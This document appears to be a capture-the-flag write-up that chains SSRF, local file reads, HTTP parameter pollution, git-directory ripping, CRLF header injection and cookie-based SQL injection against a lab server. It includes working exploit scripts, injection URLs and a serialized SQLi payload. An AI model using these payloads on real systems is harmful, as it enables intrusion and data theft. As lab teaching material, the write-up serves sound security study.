 # Internal Breach

## Description

**category:** web
**points:** 350
**keywords:** SSRF, CLRF, HPP, SQLi, Git-RIP

Can I Say Something Really Funny? No i'm not in the mood for it. 
Just find the flag sharing server on my local network of 11.10.10.0/24.

**hints:**
- Always try to read the source first.
- Git is your friend.

## Solution
We are given a website that simply does nothing, just show whatever page that you want in url field.
At first look it seems like local file inclusion or directory traversal.

Let's check some urls:
```
http://localhost:8883/cgi-bin/index.py?url=http://google.com
http://localhost:8883/cgi-bin/index.py?url=file:///etc/passwd
```

Ok, so we can see source of files, let's locate them first:
```
http://localhost:8883/cgi-bin/index.py?url=file:///etc/apache2/sites-enabled/000-default
```
And we see that files are located at /usr/lib/cgi-bin
```
http://localhost:8883/cgi-bin/index.py?url=file:///usr/lib/cgi-bin/index.py
```

By reading the source we can find out that there are some restrictions. First one is url character limit that can be bypassed with HPP injection, and
the second url blacklist bypassing with decimal conversion of sites that we want.

```
http://11.10.10.2/cgi-bin/index.py?url=%20&url=http://185207373
```

Now just clone dvcs-ripper and try to download the .git files on the server.

Simply wrote a script like git-relay-server.py as below and start it, Then run dvcs-ripper on our local server with acts as a proxy.

```python
#!/usr/bin/env python
from flask import Flask, abort
import urlparse
import requests

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    url = "http://11.10.10.2/cgi-bin/index.py?url=%20&url=http://185207373/{}".format(path)
    resp = requests.get(url)
    try:
        resp_text = eval(resp.text)
    except:
        resp_text = resp.text
        
    if not resp_text or resp_text in ['\n', '\r', '\r\n']:
        abort(404)

    out = resp_text
    return out

if __name__ == '__main__':
    app.run(debug=True, host='127.0.0.1', port=5001)
```
Now start this flask server and execut3 below code:
```
perl rip-git.pl -s -v -u http://localhost:5001/.git -o ./out
```

This is a simple php website that just check for USERINFO cookie, unserialize it and then try
to query on database and fetch user-info.
The problem is that it does all this with Cookie not Session! and also there is a sql injection
vulnerability in parsing COOKIE.

here are the codes:

index.php
```php
<?php
require_once("utils/inc.php");

$title .= " | Account";

$username = isset($_POST['username']) ? $_POST['username'] : NULL;
$password = isset($_POST['password']) ? $_POST['password'] : NULL;

?>

<?php include("utils/header.php"); ?>


  <div id="content-wrapper">
    <div id="content">
      <h3>This is a template site to give you the flag... Because this is a CTF challenge, I will not fool you with lot's of code review.</h3>
      <h5>Read my source and find a way to get the flag...</h5>
    </div>
  </div>
  
    <div id="sidebar-wrapper">
    <div id="sidebar">
      <?php if (isset($_COOKIE['login']) && $_COOKIE['login']) { ?>
        <h1>Hello <?=$users['username']?>! (id=<?=$users['id']?>)</h1>
        <h3>Welcome...</h3>

      <form method="POST"><input type="submit" value="Logout" name="logout"></form>
      <?php } else { ?>
        <h3>Login</h3>
        <form method="POST">
          <label>username</label><br>
          <input type="text" name="username"><br><br>
          <label>password</label><br>
          <input type="password" name="password"><br><br>
          <input type="submit" value="Login">
          <a href="#">Register</a><br><br><br><br>
        </form>
      <?php } ?>
    </div>
  </div>
  

<?php include("utils/footer.php"); ?>
```

inc.php
```php
<?php

ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

date_default_timezone_set('Asia/Tehran');

$title = "Flag sharing website";
$navbar = [
  "Home" => ".",
];

$ip = $_SERVER['REMOTE_ADDR'];
$date = date("Y-m-d H:i:s");

require("db.php");


if(isset($_COOKIE['USERINFO'])) {
    $temp = base64_decode($_COOKIE['USERINFO']);
    $users = unserialize($temp);
    $users = db_one("SELECT * FROM users WHERE id='(".$users['id'].")'");
    $_COOKIE['USERINFO'] = base64_encode(serialize($users));
}
```

The vulnerable Cookie is stored in USERINFO cookie, and each time index in rendering, a query is made to fetch user id and username.

But there is a problem. How we're gonna send this payload with ***ssrf***!

Let's check if there is any ***clrf*** injection.

Testing for clrf:
```
GET /cgi-bin/index.py?url=%20&url=http://185207373%0aX-injected:%20header%0ax-leftover:%20:80/index.php HTTP/1.1
Host: 11.10.10.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

Cool... we got the below response:
```
HTTP/1.1 200 OK
Date: Sat, 10 Feb 2018 16:47:02 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1911
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

b'\r\n<!DOCTYPE html>\n<html>\n<head>\n<title>\n  Flag sharing website | Account</title>\n<meta name="author
```

With clrf we can extend our ssrf request to vulnerable server and put our Cookie values.
This is a simple error based sqli, but the payload should be created as below:
- serialize
- base64 encode
- urlencode and put in http header (Cookie value) in this format: ```Cookie: USERINFO={}; login=true```

last query to get the flag:
```
a:2:{s:2:"id";s:56:"0)' union select flag,2,3 from flag limit 1 offset 0; # ";s:8:"username";s:0:"";}
```
and it's base64 encoded is:
```
YToyOntzOjI6ImlkIjtzOjU2OiIwKScgdW5pb24gc2VsZWN0IGZsYWcsMiwzIGZyb20gZmxhZyBsaW1pdCAxIG9mZnNldCAwOyAjICI7czo4OiJ1c2VybmFtZSI7czowOiIiO30=
```

Here is the final code to fetch the flag:
```python
#!/usr/bin/env python3

import base64, requests, readline, code, re, warnings
import requests
import sys
import urllib

warnings.filterwarnings('ignore')

userid = "0)' union select flag,2,3 from flag ;# "
serial = 'a:2:{s:2:"id";s:%s:"%s";s:8:"username";s:0:"";}'
serial = serial % (len(userid), userid)
user_info = base64.b64encode(serial.encode()).decode()

request = """

Cookie: USERINFO={}; login=true
Connection: Keep-Alive

x-leftover:

""".format(user_info)

x = urllib.quote_plus(request).replace('+', '%20').replace('%3A', ':').replace('%3D', '=').replace('%0A%0A', '%0d%0a')
# print(x)
url = 'http://11.10.10.54/cgi-bin/index.py?url=%20&url=http://185207373{}:80/index.php'.format(x)

r = requests.get(url)

regex = re.compile('\(id=(.+)\)')
t = regex.search(r.text)
try:
    print( t.groups()[0])
except:
    print(r.text)

```
And will print the flag for us.